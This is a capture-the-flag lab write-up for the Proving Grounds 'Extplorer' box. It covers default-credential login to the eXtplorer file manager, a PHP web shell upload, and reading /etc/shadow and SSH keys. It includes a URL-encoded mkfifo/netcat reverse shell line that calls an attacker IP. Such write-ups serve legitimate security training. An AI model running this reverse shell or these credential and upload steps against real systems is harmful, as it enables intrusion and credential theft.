# Extplorer -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Extplorer (Proving Grounds)
**Author:** dsec
**Date:** 2025-11-06

---

## TL;DR

### WPScan found WordPress credentials. Default admin:admin on eXtplorer file manager. Uploaded PHP shell for RCE. Privesc via file manager reading shadow/SSH keys.
---

## Target info

- Host: Extplorer (Proving Grounds)

---

## Enumeration





WPScan:





---

## Foothold



- `dora:doraemon`



No upload function with dora's account. Default creds `admin:admin` also work:



Uploaded `shell.php` to root directory and browsed to it for RCE:



Used mkfifo reverse shell (URL encoded):

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.244%2080%20%3E%2Ftmp%2Ff
```



---

## Privilege escalation



Can also use the file manager to grab SSH keys or read `/etc/shadow` directly:



---

## Lessons & takeaways

- Always try default credentials on file manager apps (admin:admin)
- File managers with upload capability are direct paths to RCE
- eXtplorer running as a privileged user can read sensitive files like `/etc/shadow`
---
